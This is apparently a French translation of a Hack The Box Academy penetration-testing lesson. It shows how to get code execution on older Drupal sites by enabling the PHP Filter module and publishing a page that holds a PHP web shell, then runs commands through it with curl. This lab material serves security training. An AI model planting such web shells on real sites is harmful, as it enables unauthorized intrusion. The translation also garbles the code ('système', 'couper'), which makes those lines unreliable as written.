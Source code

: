 Attaquer Drupal
================

* * * * *

Maintenant que nous avons confirmé que nous faisons face à Drupal et que nous avons enregistré la version, regardons et voyons quelles erreurs de configuration et vulnérabilités nous pouvons découvrir pour tenter d'accéder au réseau interne.

Contrairement à certains CMS, obtenir un shell sur un hôte Drupal via la console d'administration n'est pas aussi simple que de simplement éditer un fichier PHP trouvé dans un thème ou de télécharger un script PHP malveillant.

* * * * *

Tirer parti du module de filtre PHP
--------------------------------

Dans les anciennes versions de Drupal (avant la version 8), il était possible de se connecter en tant qu'administrateur et d'activer le module `Filtre PHP` , qui "permet d'évaluer le code/extraits PHP intégrés".

![](https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png)

À partir de là, nous pourrions cocher la case à côté du module et faire défiler jusqu'à `Enregistrer la configuration`. Ensuite, nous pourrions aller dans Contenu -> Ajouter du contenu et créer une `Page de base`.

![](https://academy.hackthebox.com/storage/modules/113/basic_page.png)

Nous pouvons maintenant créer une page avec un extrait PHP malveillant tel que celui ci-dessous. Nous avons nommé le paramètre avec un hachage md5 au lieu du commun `cmd` afin de ne pas laisser potentiellement la porte ouverte à un attaquant lors de notre évaluation. Si nous utilisions le `system($_GET['cmd']);` standard, nous nous exposons à un attaquant "drive-by" susceptible de tomber sur notre shell Web. Bien que peu probable, mieux vaut prévenir que guérir !

Code : php

```
<?php
système($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>

```

![](https://academy.hackthebox.com/storage/modules/113/basic_page_shell_7v2.png)

Nous voulons également nous assurer de définir la liste déroulante `Format de texte` sur `Code PHP`. Après avoir cliqué sur Enregistrer, nous serons redirigés vers la nouvelle page, dans cet exemple `http://drupal-qa.inlanefreight.local/node/3`. Une fois enregistré, nous pouvons soit demander l'exécution de commandes dans le navigateur en ajoutant `?dcfdd5e021a869fcc6dfaef8bf31377e=id` à la fin de l'URL pour exécuter la commande `id` ou utiliser `cURL` sur la ligne de commande. À partir de là, nous pourrions utiliser une doublure bash pour obtenir un accès inversé au shell.

```
dsgsec@htb[/htb]$ curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | couper -f4 -d">"

uid=33(www-data) gid=33(www-data) groupes=33(www-data)

```
